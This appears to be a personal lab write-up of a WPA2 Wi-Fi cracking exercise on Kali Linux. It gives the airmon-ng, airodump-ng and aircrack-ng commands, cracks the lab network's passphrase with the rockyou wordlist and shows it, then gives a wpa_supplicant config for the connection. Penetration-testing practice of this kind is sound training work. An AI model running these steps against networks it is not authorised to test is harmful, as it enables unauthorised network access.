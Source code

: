 ### Start Mon Mode
```
┌──(kali㉿alexandria)-[~]
└─$ sudo airmon-ng start wlan0


PHY     Interface       Driver          Chipset

phy0    wlan0           mt76x2u         MediaTek Inc. MT7612U 802.11a/b/g/n/ac
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

First capture with no specified channel
```
sudo airodump-ng wlan0mon
```
![[Pasted image 20230909031832.png]]
Redo with channel specification and output file
```
sudo airodump-ng wlan0mon -c -w Mouseion
```
![[Pasted image 20230909031956.png]]
Now to deauth the client station for reassociation for the handshake capture before bruteforcing the PSK

...Oh it already captured the handshake

Now to prep the bruteforce of the captured handshake with the wordlist and start the crack

```
┌──(kali㉿alexandria)-[~]
└─$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz

┌──(kali㉿alexandria)-[~]
└─$ sudo aircrack-ng Mouseion-01.cap -w /usr/share/wordlists/rockyou.txt
```

Cracked Successfully
![[Pasted image 20230909032441.png]]
PSK: **1q2w3e4r**
## Manual Wi-Fi Connection
Since the test disables GUI connect and has me manually do it then I'll use wpa_supplicant to connect

Format of the wpa_supplicant.conf file for this SSID is:
```
network={
        ssid="Mouseion"
        scan_ssid=1
        key_mgmt=WPA-PSK
        psk="1q2w3e4r"
}
```
